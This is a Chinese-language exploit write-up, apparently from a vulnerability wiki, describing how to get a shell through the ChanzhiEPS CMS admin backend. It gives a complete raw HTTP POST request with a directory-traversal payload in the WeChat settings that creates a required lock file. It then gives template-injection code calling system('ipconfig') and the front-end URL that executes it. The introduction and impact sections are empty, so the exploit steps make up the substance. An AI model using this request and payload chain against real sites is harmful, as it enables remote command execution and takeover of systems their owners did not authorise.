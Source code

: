```yaml
---
title: 禅知后台getshell
id: zhfly3360
---
```


# 禅知 后台getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

后台存在模板编辑，但是如果保存的话需要创建一个/system\tmp\xjrg.txt文件，那么我们找到一个可以创建任意文件的地方就

![image](../img/003981bbe4b1213ca17293f29a8cc869.png)

在/system/module/wechat/model.php

![image](../img/1dc3edfec206625266c025a245fbd143.png)

$qrcodeFile未过滤目录穿越导致可以去其他地方创建文件夹通过微信设置原始ID的地方写入穿越的文件路径

![image](../img/1259fe493cfd669d376030f94fe23097.png)

```
POST /chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1 HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1
Content-Length: 120
Cookie: adminsid=ae8tu3s80j8cfvh2hkgu41bbig; adminLang=zh-cn; adminDevice=desktop; theme=default; currentGroup=setting; frontsid=eaa0tdicbqfq0lurm89t3n9fvn; frontLang=zh-cn; frontDevice=desktop
X-Forwarded-For: 8.8.8.8
Connection: close `type=subscribe&name=123&account=…%2F…%2F…%2Fsystem%5Ctmp%5Cxjrg.txt%5C1&appID=789&appSecret=100&token=222&certified=0` 
```

点一下二维码，再随便传一张图片，可以看到创建了一个xjrg.txt文件夹

![image](../img/58cd91f073eb84793053bbbf1fc9c4ca.png)

现在我们再去编辑模板，{!echo(system('ipconfig'))},可以直接写入一句话

![image](../img/41f2976bae26cc88de1d18c06af6170f.png)

然后在访问前台

http:/0-sec.org/chanzhieps/www/index.php/sitemap/

![image](../img/db45ccd80e56f23fa3a0f699b695a096.png)